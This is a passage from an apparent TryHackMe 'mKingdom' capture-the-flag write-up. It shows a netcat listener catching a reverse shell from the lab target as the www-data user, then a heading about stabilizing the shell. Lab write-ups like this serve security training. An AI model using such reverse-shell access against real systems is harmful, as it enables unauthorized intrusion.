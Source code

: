     ![image.png](/assets/mKingdom%20images/image%2013.png)
    

Then I get connected to the target system:

```
┌──(kali㉿kali)-[~/TryHackMe/mKingdom]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.6.68.89] from (UNKNOWN) [10.10.111.96] 45844
Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 12:32:35 up  1:10,  0 users,  load average: 0.07, 0.04, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
```

## TTY Spawn Shell & Stabilize The Shell (Optional)
